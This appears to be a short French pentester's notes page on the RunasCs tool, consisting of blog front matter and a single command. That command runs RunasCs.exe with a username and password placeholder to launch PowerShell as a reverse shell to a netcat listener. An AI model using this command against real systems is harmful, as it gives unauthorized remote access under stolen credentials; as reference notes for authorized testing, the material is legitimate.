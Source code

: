 ```yaml
---
title: "Runascs"
date: 2025-05-07T15:00:00+02:00
draft: false
tags: ["Outils", "Pentester"]
categories: ["Outils"]
summary: "Runascs"
showToc: true
tocOpen: true
---
```


./RunasCs.exe 'M.schoolbus' '<password>' powershell.exe -r <nc_IP>:<nc_Port>